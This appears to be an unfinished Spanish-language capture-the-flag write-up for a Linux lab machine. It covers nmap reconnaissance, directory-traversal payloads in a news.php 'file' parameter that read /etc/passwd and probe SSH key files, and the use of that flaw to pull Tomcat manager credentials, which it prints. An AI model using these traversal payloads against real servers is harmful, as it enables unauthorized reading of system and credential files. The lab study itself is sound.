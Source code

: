 ## Summary

Tags: #Linux #HTTP #SSH #Tomcat #LFI #DirectoryPathTraversal 

- IP -> 10.10.11.194
- Ports -> TCP (80, 22, 8080), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4
    - 80 -> Apache httpd 2.4.41
    - 8080 -> Apache Tomcat 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

22 -> OpenSSH 8.2p1 Ubuntu 4 -> Focal
Apache httpd 2.4.41 -> Focal 

## Recon

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,80,8080 ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

Ahora nos disponemos a ver en la web por ambos puertos, el 80 y el 8080.

* En el puerto 80 de la pagina encontramos dentro la web una pestaña llamada "NEWS" en donde no podemos ingresar ya que esta haciendo virtual hosting. Por lo que debemos de agregar el dominio a nuestro **/etc/hosts** 

Dentro de NEWS observamos lo siguiente en la url:
```bash 
❯ megahosting.htb/news.php?file=statement

# Ahi podemos observar que hay un '?file=' que nos puede llevar a un LFI (Local File Inclusion), por lo que probamos lo siguiente en la URL

❯ megahosting.htb/news.php?file=/../../../../../etc/passwd       # Hacemos un Directory Path Traversal para ver el /etc/host de la maquina victima, si se ve raro el output hacemos 'Ctrl + u'

# Podemos observar dos usuarios, el primero es 'root' y el segundo 'ash', por lo que nos disponemos a ver si podemos ver mas cosas como:
❯ megahosting.htb/news.php?file=/../../../../../home/ash/user.txt
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/authorized_keys
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa.pub
# Pero no podemos mirar nada de los comandos anteriores 
```

* Miramos que en el puerto 8080 encontramos un Tomcat y nos muestra donde nos da un enlace a **manager webapp**, nos pide un usuario y una passwd. Colocamos las clásicas **admin:admin**, nos dará un error pero nos redireccionara a una nueva pagina.
	
	* Encontramos una ruta: **/etc/tomcat9/tomcat-user.xml**

Miramos esa ruta por el puerto 80, ya que podemos hacer usar el **Directory Path Traversal** y encontramos lo siguiente:
Como no nos muestra nada, nos disponemos a buscar en Google 'Tomcat User Common Path ' , ya que no siempre esa es la ruta de un Tomcat9, ahora encontramos esta nueva ruta: 
	**/usr/share/tomcat9/etc/tomcat-users.xml** 

Miramos esa ruta en la web por el puerto 80 con el **Directory Path Traversal** y encontramos:
	user: tomcat | Passwd: $3cureP4s5w0rd123!

Recordemos la ruta típica de Tomcat para poder entrar que es: **/manager/html** en donde nos pedirá una autenticación, y como ya tenemos el usuario y la passwd la colocamos en el panel y así lograremos entrar.



## User

Hola mundo 
## Root